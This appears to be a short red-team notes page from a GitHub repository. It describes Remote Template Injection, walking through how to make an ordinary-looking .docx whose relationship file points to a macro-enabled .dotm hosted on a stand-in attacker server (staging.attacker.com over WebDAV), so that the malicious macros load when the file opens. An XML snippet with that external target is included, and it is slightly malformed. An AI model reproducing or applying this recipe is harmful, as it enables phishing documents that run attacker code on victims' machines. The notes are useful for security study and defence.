 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# BLS Notes
http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html

Remote Template Injection is a method of bypassing file restrictions by including a remote template with macros in a regular docx file.

## Creating the template

1. Create MSOffice document with macro & save as `.dotm`
    - This will be hosted on a remote site, e.g. webdav or https

## Creating the DOCX File

1. Create a regular word document from a default template (e.g. "simple invoice", etc.).
2. Change the file type from 'docx' to 'zip' and extract the files in the zip folder.
3. Navigate to `\word\_rels` within the folder and edit the `settings.xml` file.
4. Change the "Target" section to `\\staging.attacker.com\webdav\evil.dotm`.
~~~
<pre>
<?xml version="1.0" encoding="UTF-8" standalone="true"?>
<Relationships xmlns='http://schemas.openxmlformats.org/package/2006/relationships">
   <Relationship TargetMod="External Target="\\staging.attacker.com\webdav\evil.dotm" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" ID="rID1"/>
</Relationships>
</pre>
~~~
5. Rezip these files, then rename the zipped folder back into a 'docx'.